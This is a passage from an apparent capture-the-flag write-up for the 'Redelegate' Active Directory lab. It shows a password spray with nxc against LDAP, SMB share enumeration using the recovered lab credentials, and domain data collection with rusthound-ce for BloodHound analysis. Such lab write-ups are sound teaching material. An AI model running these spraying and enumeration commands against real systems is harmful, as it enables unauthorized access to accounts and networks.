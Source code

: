 ### Password Spray

Now we have all the usernames and also the password lists.

Lets just perform a password spray on all the accounts

```bash
nxc ldap redelegate.vl -u domainusers.txt -p passwords.txt --continue-on-success | grep "[+]"
```

![image.png](/assets/images/Redelegate_VL/image%2017.png)

We have a valid hit !

### SMB Enumeration

Now lets enumerate shares on the box using Marie’s creds.

```bash
nxc smb redelegate.vl -u 'Marie.Curie' -p 'Fall2024!' --shares
```

![image.png](/assets/images/Redelegate_VL/image%2018.png)

No valid share was found as her.

So lets dump the whole domain data using bloodhound and do some graphical analysis.

### Bloodhound

Using rusthound-ce to gather data and we analyze it in bloodhound-ce

```bash
rusthound-ce -d redelegate.vl -u 'marie.curie' -p 'Fall2024!' -f dc.redelegate.vl -c All -z
```

